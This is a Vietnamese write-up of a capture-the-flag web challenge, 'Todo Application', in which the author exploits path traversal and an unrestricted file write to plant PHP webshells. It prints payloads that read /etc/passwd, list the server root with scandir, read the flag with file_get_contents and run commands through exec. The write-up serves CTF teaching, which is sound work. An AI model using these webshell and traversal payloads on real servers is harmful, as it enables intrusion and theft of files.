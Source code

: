```yaml
---
title: Write-Up Todo Application
date: 2023-10-08 10:34:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
pin: true
---
```


## **Challenge Details**
COPYRIGHT: ren6806/Hutech xD 
COPYRIGHT: ren6806/Hutech xD 
COPYRIGHT: ren6806/Hutech xD 
COPYRIGHT: ren6806/Hutech xD 
Lười viết quá copy của ông anh :P
All your work will be saved to a checklist in the todo.txt file. Can a PHP Web Shell be created on this server? Could you try and read FLAG? (Chắc lại phải RCE ời).

- **Flag Location: /flagXXXX.txt**
- **Flag Format: CHH{XXX}**
- **Credits: YesWeHack**

## **Web Analysis:**

Tại `/` trang web:

Quan sát ta thấy 1 ô input và 1 đoạn code PHP hmm.

<img src="/assets/writeup/cookie/TodoApplication/0.png">
Mình thử nhập bất kì vào ô input và ấn enter.

<img src="/assets/writeup/cookie/TodoApplication/1.png">

Ta quan sát thấy và rằng xuất hiện 2 parameter `?add` và `&fileTodo` 

Hiểu nhanh là `?add=input_strings` và  `&fileTodo=_input_file` —> **+1 idea test bug path traversal**

## **Source Code Analysis:**

Này không copy được code nên mình giải thích nhanh nhé:

khai báo biến $file với giá trị là todo.txt khi input ta nhập vào checkbox và nó sẽ set vào param là ?add + với $file là todo.txt.

Nên bất kì mình nhập vào ô input thì nó đều ghi vào file.

Nhưng đoạn code không có thêm blacklist hay whitelist kiểm tra về ghi mã độc và kiểm tra đuôi file. Nên đều này có thể dẫn đến hacker có thể ghi 1 file webshell vào input và đỗi đuôi file từ .txt sang .php dẫn dến có thể RCE hệ thống.

<img src="/assets/writeup/cookie/TodoApplication/2.png">

## **Exploiting Code Injection, Path traversal:**

Chứng minh có bug path traversal ( Là 1 hacker giỏi không bao giờ bỏ sót bugs, dù nó không có Flag trong đó nhưng vẫn check nhé).

### Cách 1: sử dụng hàm scandir và file_get_contents

Gói tin ban đầu.

<img src="/assets/writeup/cookie/TodoApplication/3.png">

Thử thêm ../../etc/passwd vào $filetodo xem có được hay không nhé.

<img src="/assets/writeup/cookie/TodoApplication/4.png">

Bèm có bugs path traversal luôn, lòi luôn cái path file index.php 🙂 (do file flag random nên không xem được bằng lỗi này, phải RCE thôi)

đoạn code trong cái ảnh ở trên nè

`/var/www/app/index.php`

<img src="/assets/writeup/cookie/TodoApplication/5.png">

Chứng minh ghi được code php và thay đỗi đuôi file.

<img src="/assets/writeup/cookie/TodoApplication/6.png">

Ghi vào khi báo bugs gì giờ test `/info.php` xem. 

Tèn ten được luôn đây này, giờ thì làm cái file shell và đọc file flag thôi nhỉ?

<img src="/assets/writeup/cookie/TodoApplication/7.png">

Nhưng mình test 7749 cách ghi shell nhưng phát hiện bị disable funtions nên hết ghi được file shell
(à không phải hết mà do test thiếu case 🙂 nó sẽ ở cách 2 nhé, giờ mình chỉ cách bị disable funtions)

<img src="/assets/writeup/cookie/TodoApplication/8.png">

Tuy vậy mình phát hiện ra rằng nó không hề disable `file_get_contents` và `scandir` .

- `scandir` : liệt kê tất cả các file (giống cmd ls trên ls)
- `file_get_contents` : đọc file

Giờ code nhẹ nhé

Search google về scandir thì có sẵn rồi : [ở đây nè](https://www.w3schools.com/php/func_directory_scandir.asp)

ở khúc bug path traversal ấy, ../../../ 3 lần là quay về thư mục gốc nên sửa lại trong này để liệt kê các file ở thư mục gốc nhé.

Payload: 

```php
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```

Lười ghi nên copy past qua đây cho lẹ

<img src="/assets/writeup/cookie/TodoApplication/9.png">

<img src="/assets/writeup/cookie/TodoApplication/10.png">

Send và đọc file `1.php`

<img src="/assets/writeup/cookie/TodoApplication/11.png">

1 file pha ke và 1 file real.

biết được tên file flag rồi thì dùng `file_get_contents` đọc ra thôi.

Payload:

```php
<?php
$dir = "../../../";
$a = scandir($dir);
$b =file_get_contents("../../../flagqsBKh.txt");
print_r($a);
print_r($b);
?>
```

<img src="/assets/writeup/cookie/TodoApplication/12.png">

DONE cách 1

<img src="/assets/writeup/cookie/TodoApplication/13.png">

### Cách 2: sử dụng hàm EXEC RCE.

Mình đã test thiếu case này do không khai báo biến. Để rồi mò luôn cả CVE của php lạc hướng luôn :<

Bình thường mình test webshell sẽ kiểu như này.

```php
<?php exec(id); ?>
```

<img src="/assets/writeup/cookie/TodoApplication/14.png">

<img src="/assets/writeup/cookie/TodoApplication/15.png">

Nó không cho in ra, nên mình đã loại trừ nó nhanh chóng để test case khác.

Nhưng mình đã sai, giờ cũng sửa nhé.

Vì trang web hình như không cho `echo` ra trực tiếp nên mình sẽ khai báo biến và test lại.

Payload:

```php
<?php
$a = exec(id);
echo($a)
?>
```

<img src="/assets/writeup/cookie/TodoApplication/16.png">

<img src="/assets/writeup/cookie/TodoApplication/17.png">

Giờ thì thực thi webshell bình thường

```php
<?php
$a = exec('ls /');
echo($a)
?>
```

Xem file và cat file nhé

donee =)))
----------------------------------------------------------------------------------------------------------
